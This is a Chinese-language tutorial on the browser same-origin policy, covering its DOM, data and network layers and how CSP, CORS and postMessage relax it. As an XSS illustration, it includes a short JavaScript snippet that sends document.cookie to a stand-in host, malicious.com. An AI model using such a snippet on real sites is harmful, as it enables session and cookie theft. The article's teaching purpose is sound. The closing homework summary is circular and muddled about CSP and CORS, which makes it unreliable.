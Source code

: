 ```yaml
---
title: 同源策略：为什么XMLHttpRequest不能跨域请求资源？
date: 2024年5月10日21:06:57
---
```


浏览器安全可以分为三大块——**Web页面安全、浏览器网络安全和浏览器系统安全**，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？

Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。

Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的DOM、CSSOM等信息；
- 在银行站点内部插入JavaScript脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的Cookie、IndexDB等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，**在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全**。

这就引出了页面中最基础、最核心的安全策略：**同源策略（Same-origin policy）**。

## 什么是同源策略

要了解什么是同源策略，我们得先来看看什么是同源

同源是指两个网页的协议、域名和端口号都相同，那么这两个网页就是同源的。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。

```shell
https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
```

浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。

具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。

**第一个，DOM层面**。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。

这里我们还是拿极客时间的官网做例子，**打开极客时间的官网**，然后**再从官网中打开另外一个专栏页面**，如下图所示：

![通过极客时间官网打开一个专栏页面](https://pic.imgdb.cn/item/663e1cbe0ea9cb1403254292.png)

由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：

```js
{
    let pdom = opener.document
    pdom.body.style.display = "none"
}
```

该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。

我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：

![通过第二个页面操纵第一个页面的DOM](https://pic.imgdb.cn/item/663e1d150ea9cb14032609cb.png)

不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如**从极客时间官网打开InfoQ的页面**（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示

![不同源的两个页面不能相互操纵DOM](https://pic.imgdb.cn/item/663e1d4a0ea9cb14032687b9.png)

从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。

```js
Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
```

**第二个，数据层面**。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。

**第三个，网络层面**。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在《[WebAPI：XMLHttpRequest是怎么实现的？](/browser/pageEventLoop/XMLHttpRequest.html)》这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。

## 安全和便利性的权衡

我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。

### 1. 页面中可以嵌入第三方资源

我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。

所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。

比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：

![恶意代码](https://pic.imgdb.cn/item/663e1e500ea9cb1403290139.png)

当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。

以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。**CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。通过这些手段就可以大大减少XSS攻击。

### 2. 跨域资源共享和跨文档消息机制

默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。

为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。

在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了**跨文档消息机制**，可以通过`window.postMessage`的JavaScript接口来和不同源的DOM进行通信。

## 总结

好了，今天就介绍到这里，下面我来总结下本文的主要内容。

同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

1. 页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。
2. 使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
3. 两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。

## 课外作业

你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。

1. 同源策略：同源策略是浏览器的安全策略，它限制了不同源的页面之间进行通信，从而实现Web页面的安全性。同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。
2. CSP：CSP是浏览器的安全策略，它限制了浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码。通过这些手段就可以大大减少XSS攻击。
3. CORS：CORS是浏览器的安全策略，它限制了浏览器是否能够进行跨域请求，从而实现Web页面的安全性。
4. 跨文档消息机制：跨文档消息机制是浏览器的安全策略，它通过`window.postMessage`的JavaScript接口来和不同源的DOM进行通信。

**总结**：同源策略、CSP和CORS之间的关系是：同源策略是CSP和CORS的基础，CSP和CORS是同源策略的基础，同源策略和CORS是跨域安全的基础，跨域安全的基础是同源策略和CORS。
